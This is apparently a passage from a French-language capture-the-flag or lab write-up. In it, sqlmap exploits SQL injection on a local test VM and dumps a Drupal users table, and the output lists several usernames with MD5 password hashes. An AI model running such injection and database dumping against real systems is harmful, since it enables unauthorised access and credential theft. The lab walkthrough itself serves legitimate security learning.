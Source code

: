 ```console
root@blinils:~# sqlmap -u "http://192.168.56.101/list/" --data="name=a&email=b&phone=c&org=d" --dbms=MySQL --dump -D contacts -T contact

--snip--

[13:31:13] [INFO] fetching columns for table 'contact' in database 'contacts'
[13:31:13] [INFO] used SQL query returns 5 entries
[13:31:13] [INFO] resumed: id
[13:31:13] [INFO] resumed: int(10) unsigned
[13:31:13] [INFO] resumed: name
[13:31:13] [INFO] resumed: varchar(45)
[13:31:13] [INFO] resumed: email
[13:31:13] [INFO] resumed: varchar(45)
[13:31:13] [INFO] resumed: phone
[13:31:13] [INFO] resumed: varchar(45)
[13:31:13] [INFO] resumed: org
[13:31:13] [INFO] resumed: varchar(45)
[13:31:13] [INFO] fetching entries for table 'contact' in database 'contacts'
[13:31:13] [WARNING] the SQL query provided does not return any output
[13:31:13] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[13:31:13] [INFO] fetching number of entries for table 'contact' in database 'contacts'
[13:31:13] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:31:13] [INFO] retrieved: 
[13:31:13] [WARNING] unable to retrieve the number of entries for table 'contact' in database 'contacts'
```

Tant pis ! Au moins SQLMap aura pu récupérer la liste des utilisateurs de Drupal... ainsi que ce qui semble être des mots de passe hashés.

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/list/" --data="name=a&email=b&phone=c&org=d" --dbms=MySQL --dump -D drupal -T users

--snip--
[13:50:50] [INFO] fetching columns for table 'users' in database 'drupal'
[13:50:50] [INFO] used SQL query returns 19 entries
[13:50:50] [INFO] retrieved: uid
[13:50:50] [INFO] retrieved: int(10) unsigned
[13:50:50] [INFO] retrieved: name
[13:50:50] [INFO] retrieved: varchar(60)
[13:50:50] [INFO] retrieved: pass
[13:50:50] [INFO] retrieved: varchar(32)
[13:50:50] [INFO] retrieved: mail
[13:50:50] [INFO] retrieved: varchar(64)
--snip--
[13:50:50] [INFO] retrieved: jennifer
[13:50:50] [INFO] retrieved: e3f4150c722e6376d87cd4d43fef0bc5
--snip--
[13:50:50] [INFO] retrieved: patrick
[13:50:50] [INFO] retrieved: 5f4dcc3b5aa765d61d8327deb882cf99
--snip--
[13:50:50] [INFO] retrieved: andy
[13:50:50] [INFO] retrieved: b64406d23d480b88fe71755b96998a51
--snip--
[13:50:50] [INFO] retrieved: loren
[13:50:50] [INFO] retrieved: 6c470dd4a0901d53f7ed677828b23cfd
--snip--
[13:50:50] [INFO] retrieved: amy
[13:50:50] [INFO] retrieved: e5f0f20b92f7022779015774e90ce917
--snip--
[13:50:50] [INFO] recognized possible password hashes in column 'pass'
```